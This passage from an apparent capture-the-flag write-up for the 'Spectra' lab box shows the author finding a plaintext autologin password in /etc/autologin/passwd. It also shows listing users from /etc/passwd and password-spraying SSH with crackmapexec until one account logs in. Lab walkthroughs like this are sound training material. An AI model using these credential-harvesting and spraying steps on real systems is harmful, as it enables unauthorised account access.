 It checks in two paths for a `passwd` file, and if either is there, it breaks, and then runs `inject-keys.py -s $passwd -k enter`. `inject-keys.py` looks to be [this script](https://git.furworks.de/coreboot-mirror/chrome-ec/src/commit/a029c7a27f3bd1a1066db9c167c6166688fe4ef3/util/inject-keys.py) from the Chrome-ec repo, and it does what it says. Of the two paths, the first doesn’t exist, but the second does:

```

nginx@spectra /opt $ ls /mnt/stateful_partition/etc/autologin
ls: cannot access '/mnt/stateful_partition/etc/autologin': No such file or directory
nginx@spectra /opt $ ls /etc/autologin/
passwd

```

It contains what looks like a password:

```

nginx@spectra /opt $ cat /etc/autologin/passwd 
SummerHereWeCome!!

```

### ssh

#### Identify User

There are four users in `/etc/passwd` that don’t have a shell of `/bin/false`:

```

nginx@spectra /opt $ cat /etc/passwd | grep -v false
root:x:0:0:root:/root:/bin/bash
chronos:x:1000:1000:system_user:/home/chronos/user:/bin/bash
nginx:x:20155:20156::/home/nginx:/bin/bash
katie:x:20156:20157::/home/katie:/bin/bash

```

I’ll create a file with those users and run `crackmapexec` to check for SSH with that password:

```

oxdf@parrot$ crackmapexec ssh 10.10.10.229 -u users -p 'SummerHereWeCome!!' --continue-on-success
SSH         10.10.10.229    22     10.10.10.229     [*] SSH-2.0-OpenSSH_8.1
SSH         10.10.10.229    22     10.10.10.229     [-] chronos:SummerHereWeCome!! Bad authentication type; allowed types: ['publickey', 'keyboard-interactive']
SSH         10.10.10.229    22     10.10.10.229     [+] katie:SummerHereWeCome!! 
SSH         10.10.10.229    22     10.10.10.229     [-] nginx:SummerHereWeCome!! Bad authentication type; allowed types: ['publickey', 'keyboard-interactive']
SSH         10.10.10.229    22     10.10.10.229     [-] root:SummerHereWeCome!! Bad authentication type; allowed types: ['publickey', 'keyboard-interactive']

```
